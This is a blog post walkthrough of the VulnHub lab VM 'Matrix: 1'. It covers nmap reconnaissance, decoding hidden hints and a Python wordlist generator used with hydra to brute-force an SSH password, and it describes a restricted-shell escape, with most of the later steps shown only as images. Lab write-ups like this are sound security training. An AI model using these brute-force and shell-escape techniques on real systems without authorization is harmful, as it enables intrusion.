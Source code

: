 ```yaml
---
layout: post
title: "Matrix: 1 Walkthrough"
subtitle: "It means buckle your seatbelt, Dorothy because Kansas is going bye bye."
date: 2018-11-26 11:03:25 +0000
last_modified_at: 2018-11-26 11:09:45 +0000
category: Walkthrough
tags: [VulnHub, Matrix]
comments: true
image:
  feature: matrix-1-walkthrough.jpg
  credit: Septimiu / Pixabay
  creditlink: https://pixabay.com/en/desktop-people-human-hand-man-3170198/
---
```


This post documents the complete walkthrough of Matrix: 1, a boot2root [VM][1] created by [Ajay Verma][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

This is your last chance. After this, there is no turning back. You take the blue pill - the story ends, you wake up in your bed and believe whatever you want to believe. You take the red pill - you stay in Wonderland and I show you how deep the rabbit-hole goes.

### Information Gathering

Let’s start with a nmap scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)
|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)
|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)
80/tcp    open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 2.7.14)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
31337/tcp open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 2.7.14)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
```

`nmap` finds `22/tcp`, `80/tcp` and `31337/tcp` open. The interesting bit is that both `http` servers are Python's `SimpleHTTPServer`.

### Cypher's Message

Cypher left a message in the HTML source code of `31337/tcp`.

```
# curl -s 192.168.30.129:31337 | sed '71!d' | sed -r 's/\s+//' | cut -d'>' -f2 | cut -d'<' -f1 | base64 -d && echo
echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
```

The message is redirected to a file. Perhaps the file is present?

<a class="image-popup">
![096cd22e.png](/assets/images/posts/matrix-1-walkthrough/096cd22e.png)
</a>

What do we have here?

<a class="image-popup">
![e95088f2.png](/assets/images/posts/matrix-1-walkthrough/e95088f2.png)
</a>

Brainfuck!

Using an online [interpreter](https://copy.sh/brainfuck/), one can easily decipher (no pun intended) it, in which case, the message is:

```
You can enter into matrix as guest, with password k1ll0rXX Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.
```

### Entering the Matrix

From the message, it's clear that we need to brute-force our way into the Matrix. The tool of choice here is `hydra`. It's equally easy to use Python to generate a password list for `hydra`'s use.

<div class="filename"><span>genme.py</span></div>

```py
import itertools
import os
import string

charset  = string.ascii_letters + string.digits
killer   = 'k1ll0r'
password = open('passwords.txt', 'w')
string   = ''

for (a, b) in itertools.product(charset, repeat=2):
    string += killer + a + b + '\n'

password.write(string)
password.close()

os.system('sort -R < password.txt > pass.txt && rm passwords.txt && mv pass.txt passwords.txt')
```

The random sort at the end is for good measure—hopefully luck is on our side—and we don't have go all the way to the end to get our password.

Time to give it a shot.

<a class="image-popup">
![f279c0e2.png](/assets/images/posts/matrix-1-walkthrough/f279c0e2.png)
</a>

Awesome. Took less than a minute.

### Bypass Restricted Shell

I give to you a restricted shell. Damn.

<a class="image-popup">
![6119306b.png](/assets/images/posts/matrix-1-walkthrough/6119306b.png)
</a>

No sweat. We can log out and log back in again, making use of the fact that SSH executes command upon login like so.

<a class="image-popup">
![e2ad406e.png](/assets/images/posts/matrix-1-walkthrough/e2ad406e.png)
</a>

The surprise doesn't end here.

<a class="image-popup">
![ca82e1bf.png](/assets/images/posts/matrix-1-walkthrough/ca82e1bf.png)
</a>

I guess it's over.

<a class="image-popup">
![9ccb4955.png](/assets/images/posts/matrix-1-walkthrough/9ccb4955.png)
</a>

### What's the Flag?

Getting the flag is one command away.

<a class="image-popup">
![18312981.png](/assets/images/posts/matrix-1-walkthrough/18312981.png)
</a>

:dancer:

[1]: https://www.vulnhub.com/entry/matrix-1,259/
[2]: https://twitter.com/@unknowndevice64
[3]: https://www.vulnhub.com/

